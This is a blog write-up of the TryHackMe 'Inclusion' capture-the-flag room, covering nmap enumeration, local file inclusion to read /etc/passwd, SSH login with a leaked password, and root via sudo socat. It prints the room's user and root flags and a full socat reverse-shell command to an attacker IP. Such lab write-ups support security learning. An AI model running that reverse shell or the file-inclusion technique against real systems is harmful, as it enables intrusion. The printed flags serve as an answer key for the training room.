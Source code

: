 ```yaml
---
title: Inclusion (Try Hack Me)
author: Robin Goyal
date: 2021-09-11 15:45 -0400
categories: [Cybersecurity, Writeups]
tags: [thm, ctf, writeup]
hidden: true
image:
  src: https://tryhackme-images.s3.amazonaws.com/room-icons/dfb60887721c6a62ffa3ae2c35e386e6.png
---
```


I am currently in the process of completing these boxes on Try Hack Me again in an effort to document my experience, reinforce my knowledge of the topics, and improve my ability to concisely communicate the pentest lifecycle.

## Enumeration

Kicking things off with an initial nmap scan of the top 1000 ports, there are two available ports:
- 22 (SSH)
- 80 (HTTP)

![nmap initial](/assets/img/posts/thm-inclusion/nmap-initial.jpg)

I haven't had much experience interacting with a web application hosted by Python so this will be interesting.

From the version information for the SSH, the target is an Ubuntu Linux OS.

### HTTP

Browsing to the web application hosted on port 80, we're presented with a Bootstrap styled landing page.

![landing](/assets/img/posts/thm-inclusion/landing.jpg)

There are not many available sections of the website other than the three columns in the grid at the bottom of the page. Clicking on any of the "View details" options directs us to /article along with a parameter for the name of the article.

![lfiattack](/assets/img/posts/thm-inclusion/lfiattack.jpg)

SO, it is pretty obvious from the name of the room, the title of the article, and the contents of the article that this room is focused on Local File Inclusion (LFI).

## Initial Foothold

### Local File Inclusion

The first file we can try to access is the /etc/passwd file as it is world readable. We can get an idea of the various users available on the system so we could brute force the SSH service.

If the web application is running as root, then we might also be able to view the /etc/shadow file and then use John the Ripper to brute force the root hash or other non-root user hashes.

![shadow error](/assets/img/posts/thm-inclusion/passwd-error.jpg)

LFI takes a bit of trial and error as we need to find where the web application is being served from. Usually, the web applications files begin at /var/www/html so if we move up three levels in the directory structure, we'll be at the root of the filesystem.

![shadow lfi](/assets/img/posts/thm-inclusion/passwd-lfi.jpg)

We were correct! So we have access to the /etc/passwd contents but this is a jumbled mess! If we view the page source, we should have a structured response.

![shadow lfi source](/assets/img/posts/thm-inclusion/passwd-lfi-source.jpg)

Fantastic! However, it looks like the password for one of the users is leaked in the passwd file as a comment! Looks like we won't have to do any potential brute force cracking using John the Ripper.

![initial foothold](/assets/img/posts/thm-inclusion/initial-foothold.jpg)

With the SSH service open, we obtained our initial foothold as the user falconfeast.

![user flag](/assets/img/posts/thm-inclusion/user-flag.jpg)

Grabbing the user flag and we can perform some privilege escalation.

User Flag: `60989655118397345799`

## Privilege Escalation

Let's list out the privileges of the falconfeast user!

![sudo privileges](/assets/img/posts/thm-inclusion/sudo-privs.jpg)

The user, falconfeast, can execute socat as root with no required password. Socat is a similar program to netcat where we can generate a reverse shell to our attacker system [^gtfobins].

![reverse shell](/assets/img/posts/thm-inclusion/reverse-shell.jpg)

Woot! We obtained root and we can complete the room with the root flag.

![root flag](/assets/img/posts/thm-inclusion/root-flag.jpg)

Root Flag: `42964104845495153909`

## Reflection

This room was meant more as an educational role rather than a semi-challenging LFI room. The killchain to obtaining root took a minimal number of steps but this room provided the opportunity to learn about LFI and using socat to generate a reverse shell.

## Useful Commands

### Socat Reverse Shell

`socat tcp-connect:10.6.5.103:4444 exec:/bin/sh,pty,stderr,setsid,sigint,sane`

## References

[^gtfobins]: <https://gtfobins.github.io/gtfobins/socat/#reverse-shell>

